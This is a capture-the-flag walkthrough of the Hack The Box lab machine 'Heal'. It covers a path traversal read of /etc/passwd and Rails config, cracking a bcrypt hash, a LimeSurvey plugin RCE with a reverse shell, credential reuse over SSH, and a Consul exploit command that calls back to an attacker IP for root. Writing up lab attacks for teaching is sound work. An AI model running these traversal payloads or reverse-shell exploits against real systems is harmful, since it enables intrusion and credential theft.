



# Hack The Box - Heal



Heal is a medium Linux machine that starts with a Laravel-backed resume builder, then moves through a path traversal issue, credential reuse, a LimeSurvey plugin exploit, and finally a Consul abuse path to root. The chain is a good example of how web debugging, exposed configuration, and internal service enumeration can combine into a full compromise.

## Reconnaissance

I began with a port scan to identify the exposed services.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The HTTP service redirected to `heal.htb`, so I added that host to `/etc/hosts` and moved to web enumeration.

## Resume Builder

The site presented a Fast Resume Builder with a registration form. Submitting the form failed at first, and the browser traffic showed that the application contacted `api.heal.htb`. After adding that domain, I found a Ruby on Rails API behind the interface.



Registration worked after that, and I was able to log in and build a resume through the site.



The resume download feature was especially interesting because it fetched files with a `filename` parameter. I tested it with path traversal and was able to read `/etc/passwd`:

```bash
curl -H 'Authorization: Bearer <REDACTED>' \
  'http://api.heal.htb/download?filename=../../../../../etc/passwd'
```

That confirmed a file read issue.

## Source Discovery

Since the backend was Ruby on Rails, I checked the standard database configuration path through the current working directory.

```bash
curl -H 'Authorization: Bearer <REDACTED>' \
  'http://api.heal.htb/download?filename=../../../../../proc/self/cwd/config/database.yml'
```

The response showed that the application used SQLite and pointed to the database location:

```text
production:
  <<: *default
  database: storage/development.sqlite3
```

I downloaded the SQLite database and inspected its contents locally.

```text
sqlite> .tables
ar_internal_metadata  token_blacklists
schema_migrations     users
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|...
2|ryuki@heal.htb|$2a$12$GjOGdFspJbhs47eoIxnguevNkYsd.rU5NTA8OYZquh7RqLnoke49O|...
```

Those were bcrypt hashes, and I cracked the one for `ralph`:

```text
147258369
```

That password did not immediately work for SSH, but it turned out to be useful later.

## LimeSurvey Access

Back on the resume site, there was also a link to a survey application at `take-survey.heal.htb`. After adding that host, I found a LimeSurvey instance.

The admin panel accepted the `ralph` credentials, and the global settings showed LimeSurvey version 6.6.4. Searching for issues in that version led me to an authenticated remote code execution proof of concept https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.

I adjusted the PoC to match the deployed version and updated the reverse shell IP before repackaging the plugin archive. Running the exploit uploaded, installed, and activated the plugin successfully, which gave me a shell as `www-data`.

## User Pivot

From the LimeSurvey config, I recovered database credentials:

```text
db_user / AdmiDi0_pA$$w0rd
```

I checked for password reuse across local users and found that `ron` accepted the same password over SSH.

```bash
ssh ron@heal.htb
```

That gave me an interactive shell as `ron`.

## Consul to Root

`ron` did not have sudo privileges, so I moved to manual enumeration. A process listing showed Consul running locally as root.

```text
/usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/etc/consul.d
```

The installed version was `Consul v1.19.2` https://www.exploit-db.com/exploits/51117 . The configuration file at `/etc/consul.d/config.json` exposed the gossip encryption key:

```json
"encrypt":"l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="
```

Using a local Consul exploit with the loopback target, my reverse shell callback, and the encryption key, I gained a root shell.

```bash
python3 exploit.py 127.0.0.1 8500 10.10.14.110 4444 "l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="
```

## Attack Path

- Enumerate the host and identify SSH plus web services.
- Discover the resume builder and its API subdomain.
- Abuse path traversal in the download endpoint.
- Read Rails config and download the SQLite database.
- Crack the bcrypt hash for `ralph`.
- Find the LimeSurvey subdomain and exploit the authenticated plugin upload.
- Gain a shell as `www-data`.
- Reuse credentials to SSH as `ron`.
- Enumerate local services and identify Consul.
- Use the Consul configuration and exploit to get root.
